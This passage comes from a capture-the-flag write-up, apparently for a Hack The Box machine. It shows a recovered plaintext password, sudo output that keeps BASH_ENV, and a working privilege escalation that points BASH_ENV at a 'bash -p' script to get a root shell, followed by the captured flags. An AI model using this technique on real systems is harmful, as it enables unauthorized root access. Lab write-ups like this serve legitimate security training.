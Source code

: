 There we go, we got the password for hish:

```
hish:marineSPm@ster!!
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250611170307.png)

Now, let's check our sudo privileges:

```
hish@environment:~$ sudo -l
[sudo] password for hish:
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

We can run sudo with `/usr/bin/systeminfo`, although, the interesting stuff on here is:

```
env_keep+="ENV BASH_ENV"
```

We can exploit these environment variables by doing:

* Creating a malicious script.
* Pointing `BASH_ENV` to it.
* Running a **`sudo`-allowed command** that invokes **bash**, **or uses bash to run subcommands.**

Let's do it:

```
echo 'bash -p' > /tmp/rootshell.sh
chmod +x /tmp/rootshell.sh
```

Now, we need to set the `BASH_ENV` and run sudo:

```bash
sudo ENV=/tmp/rootshell.sh BASH_ENV=/tmp/rootshell.sh /usr/bin/systeminfo
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250611170836.png)

There we go, we got a root shell, let's get both flags and end the CTF:

```
root@environment:/home/hish# cat /home/hish/user.txt
c

root@environment:/home/hish# cat /root/root.txt
3e7980c4bd6234998b50c3b3e6d1ac41
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250611170934.png)

https://www.hackthebox.com/achievement/machine/1872557/659
